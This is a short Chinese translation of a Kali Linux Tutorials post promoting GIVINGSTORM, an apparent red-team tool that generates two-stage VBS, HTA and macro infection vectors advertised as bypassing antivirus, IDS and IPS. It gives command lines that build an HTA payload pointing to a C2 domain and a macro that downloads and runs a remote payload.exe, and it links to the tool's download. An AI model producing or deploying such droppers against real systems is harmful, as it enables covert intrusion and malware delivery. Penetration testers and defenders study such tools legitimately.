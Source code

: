 # GIVINGSTORM:绕过 AV、IDS 和 IPS 的感染媒介

> 原文：<https://kalilinuxtutorials.com/givingstorm/>

[![GIVINGSTORM : Infection Vector That Bypasses AV, IDS, & IPS](img//6a568d3a9fcb467474f1bc9a856c4db0.png "GIVINGSTORM : Infection Vector That Bypasses AV, IDS, & IPS")](https://1.bp.blogspot.com/-cpI8VuatemQ/XxQfuWqMGHI/AAAAAAAAG6E/GbRAccl3u6s2tpO41cHtsiTi0a3kat-BwCLcBGAsYHQ/s1600/HTA%25281%2529.png)

GIVINGSTORM 使用起来轻而易举。简单地克隆目录，并把 cd 放入其中。C2 框架的开端。目前还没有 C2 的东西。产生双阶段 VBS 感染载体和双阶段 HTA 感染载体。

这些变量考虑了 C2 地址、Koadic/Empire 有效载荷和一些传送机制。有效载荷文件被输出到一个恰当命名的目录“有效载荷”中，如果该目录不存在，则创建该目录。

**安装&使用**

对于 HTA 有效载荷:python 3 givingstorm . py-n Windows-Upgrade-p b64 encoded payload-c amazon.com/c2/domain

*   **HTA 例子**

![](img//031928176e3c44fb67b4ce2337325b69.png)

对于宏子程序:python 3 givingstorm . py-n Windows-Upgrade-e amazon.com/final/payload.exe

*   **宏示例**

![](img//68ff5394df2e14e5c52d7cf6b505be76.png)[**Download**](https://github.com/nins3i/GIVINGSTORM)